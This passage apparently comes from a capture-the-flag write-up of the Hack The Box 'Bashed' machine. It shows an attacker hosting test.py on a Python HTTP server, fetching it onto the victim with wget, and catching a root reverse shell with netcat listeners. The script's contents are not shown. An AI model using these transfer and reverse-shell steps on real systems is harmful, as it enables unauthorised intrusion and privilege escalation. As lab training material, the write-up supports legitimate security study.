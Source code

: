 <br />
Create a python server to serve the test.py.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endraw %}

<br />
Transfer the test.py to the victim machine.

{% raw %}
```sh
www-data@bashed:/dev/shm$ wget http://10.10.16.12:8000/test.py
wget http://10.10.16.12:8000/test.py
--2025-01-28 06:33:24--  http://10.10.16.12:8000/test.py
Connecting to 10.10.16.12:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 219 [text/x-python]
Saving to: 'test.py'

test.py             100%[===================>]     219  --.-KB/s    in 0.001s  

2025-01-28 06:33:24 (320 KB/s) - 'test.py' saved [219/219]
```
{% endraw %}

<br />
Try moving the file to overwrite the /scripts/test.py.  Notice that there was an error that states that the operation is not permitted.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ sudo nc -nlvp 443                           
[sudo] password for kali: 
listening on [any] 443 ...
```
{% endraw %}

<br />
As I was trying to figure out what to do about that error, I checked the error and noticed that I caught a shell.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ nc -nlvp 4444                             
listening on [any] 4444 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.10.68] 46880
# whoami
whoami
root
#
```
{% endraw %}
